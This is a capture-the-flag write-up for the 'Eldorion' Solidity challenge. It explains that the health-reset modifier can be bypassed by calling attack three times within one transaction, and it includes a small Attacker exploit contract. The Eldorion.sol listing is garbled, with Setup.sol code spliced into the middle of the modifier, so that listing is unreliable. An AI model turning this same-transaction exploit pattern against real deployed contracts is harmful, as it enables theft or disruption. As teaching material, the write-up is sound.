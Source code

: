 ## Challenge Overview

The Eldorion challenge features a smart contract representing a powerful entity with 300 health points.

To solve the challenge, we must defeat Eldorion by reducing its health to exactly zero.
## Source Code
``Eldorion.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract Eldorion {
    uint256 public health = 300;
    uint256 public lastAttackTimestamp;
    uint256 private constant MAX_HEALTH = 300;
    
    event EldorionDefeated(address slayer);
    
    modifier eternalResilience() {
        if (block.timestamp > lastAttackTimestamp) {
            health = MAX_HEALTH;// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

            lastAttackTimestamp = block.timestamp;
        }
        _;
    }
    
    function attack(uint256 damage) external eternalResilience {
        require(damage <= 100, "Mortals cannot strike harder than 100");
        require(health >= damage, "Overkill is wasteful");
        health -= damage;
        
        if (health == 0) {
            emit EldorionDefeated(msg.sender);
        }
    }

    function isDefeated() external view returns (bool) {
        return health == 0;
    }
}
```
``Setup.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

```

## Vulnerability Analysis

The key vulnerability in the `Eldorion.sol`  contract lies in its `eternalResilience` modifier:

```javascript
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

This modifier resets the health to maximum (300) if a new block timestamp is detected. 

However, multiple function calls within a single transaction share the same block timestamp, creating an exploitation opportunity.

The `attack` function allows us to deal damage up to 100 points per call, and we will call 3 times to reduce heath to exact 0 and get flag.

```solidity
function attack(uint256 damage) external eternalResilience {
    require(damage <= 100, "Mortals cannot strike harder than 100");
    require(health >= damage, "Overkill is wasteful");
    health -= damage;
    
    if (health == 0) {
        emit EldorionDefeated(msg.sender);
    }
}
```

## Exploitation Strategy

The exploit relies on executing multiple attacks within a single transaction to bypass the health reset mechanism. 

Since we need to deal exactly 300 damage and each attack is limited to 100 damage, we need to execute 3 attack calls in one transaction.

### Attack Implementation

Our `Attacker.sol`contract:

```solidity
contract Attacker {
    IEldorion public target;
    
    constructor(address _target) {
        target = IEldorion(_target);
    }
    
    function exploit() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

This contract makes three consecutive attack calls within a single function execution as a single transaction. This prevents the `eternalResilience` modifier from resetting health between attacks.

## Execution Steps

1. Deploy the Attacker contract with the Eldorion contract address
2. Call the exploit function, which executes three 100-damage attacks in sequence
3. The Eldorion's health is reduced from 300 → 200 → 100 → 0, defeating it

![alt text](image.png)
